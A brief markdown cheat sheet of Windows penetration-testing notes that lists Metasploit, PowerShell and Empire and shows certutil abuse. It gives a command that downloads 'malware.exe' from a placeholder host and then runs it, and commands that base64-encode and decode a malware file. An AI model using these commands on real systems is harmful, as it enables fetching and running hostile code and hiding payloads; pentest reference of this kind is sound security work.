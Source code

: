 # Windows Pentest Notes

[Useful Tools](#Useful-Tools)

[Certutil](#Certutil-abuse)




## Useful Tools
`metasploit` of course

and `powershell` is always your best friend

`empire` for creating malicious pwershell script, avalible on [github](https://github.com/EmpireProject/Empire)

## Certutil abuse
### Download files & execute
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
### Hash Files
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
### Files to baes64 code 
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`
